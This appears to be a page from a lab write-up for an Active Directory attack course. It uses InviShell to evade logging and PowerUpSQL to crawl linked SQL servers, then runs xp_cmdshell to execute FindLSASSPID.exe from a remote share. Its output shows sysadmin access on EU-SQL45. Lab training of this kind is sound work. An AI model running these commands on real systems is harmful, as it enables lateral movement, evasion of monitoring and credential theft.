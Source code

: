 ```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''\\dcorp-student867.dollarcorp.moneycorp.local\studentshare867\FindLSASSPID.exe''' -QueryTarget eu-sql45
```

<figure><img src="../../.gitbook/assets/image (263).png" alt=""><figcaption></figcaption></figure>

```
Version     : SQL Server 2019
Instance    : DCORP-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL}
User        : dcorp\student867
Links       : {DCORP-SQL1}

Version     : SQL Server 2019
Instance    : DCORP-SQL1
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1}
User        : dblinkuser
Links       : {DCORP-MGMT}

Version     : SQL Server 2019
Instance    : DCORP-MGMT
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT}
User        : sqluser
Links       : {EU-SQL45.EU.EUROCORP.LOCAL}

Version     : SQL Server 2019
Instance    : EU-SQL45
CustomQuery : System.Data.DataRow
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL45.EU.EUROCORP.LOCAL}
```